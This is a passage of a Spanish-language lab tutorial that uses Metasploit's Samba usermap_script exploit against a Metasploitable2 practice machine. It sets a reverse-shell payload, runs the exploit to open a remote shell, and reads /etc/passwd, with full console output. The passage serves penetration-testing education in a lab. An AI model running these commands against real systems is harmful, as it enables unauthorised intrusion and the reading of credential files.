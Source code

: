 ```sh


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

9. Vamos establecer la opción _RHOSTS (ms2)_ y vamos a cambiar el payload con el comando _set payload_ a _cmd/unix/reverse_,  como alternativa para usar otro payload y así practica el comando:

```sh
msf6 exploit(multi/samba/usermap_script) > set rhosts ms2
rhosts => ms2
msf6 exploit(multi/samba/usermap_script) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
```

> Nota: La opción del payload _LHOST_ es puesta a nuestra IP de nuestro host por defecto, si no es así, establécelo con _set LHOST  NUEVAIP_. Puede que cuando cambiamos un payload por otro, las opciones cambiemos también de nombre, en este ejemplo son iguales.

10. Ejecutamos el exploit, y con éxito tenemos un shell de _Metasploitable2_. Ahora vamos a poner un ejemplo de por qué esto es CAÓTICO para un sistema que se encuentra desarrollado un exploit para un puerto. Ejecutamos los comandos para ver a los usuarios y sus _contraseñas_ en el sistema y nombre de la máquina:

- _/etc/passwd_: Este archivo contiene la información básica de cada cuenta de usuario en el sistema. Es legible por todos los usuarios, pero normalmente **no contiene las contraseñas reales**, ya que estas se almacenan en `/etc/shadow` con formato de **hash** (un código para ocultar las contraseñas) que **sólo el usuario root puede leer**: usuario:contraseña:UID:GID:comentario:directorio_home:shell.

- _/etc/hostname_: Este archivo contiene una sola línea con el **nombre del host** del sistema (hostname). Este nombre es cómo se identifica tu máquina en la red local.

```sh
msf6 exploit(multi/samba/usermap_script) > run
[*] Started reverse TCP double handler on 10.0.2.15:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo p7foJTiWnUM3CxiX;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "p7foJTiWnUM3CxiX\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (10.0.2.15:4444 -> 10.0.2.5:33250) at 2025-06-13 23:09:32 -0400

cat /etc/passwd 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
```